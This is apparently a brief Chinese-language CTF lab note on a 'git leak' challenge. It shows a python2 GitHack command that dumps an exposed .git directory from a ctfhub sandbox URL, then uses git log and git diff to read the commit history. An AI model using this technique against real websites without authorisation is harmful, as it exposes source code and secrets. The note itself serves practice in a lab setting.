 ```yaml
---
title: git泄露,log
date: 2024-11-12T13:12:51Z
lastmod: 2024-11-12T13:17:33Z
---
```


# git泄露,log

使用githack工具还原git库,git库里记录文件操作,可以查询信息

注意要使用python2 运行

```shell
python2 GitHack.py http://challenge-408f3b6ae078d0dc.sandbox.ctfhub.com:10800/.git/
```

​![image](assets/image-20241112131527-7l2nh1e.png)​

使用`git log`​显示信息

‍

​![image](assets/image-20241112131653-uwasz8c.png)​

使用`git diff <comment>`​查看操作信息

‍
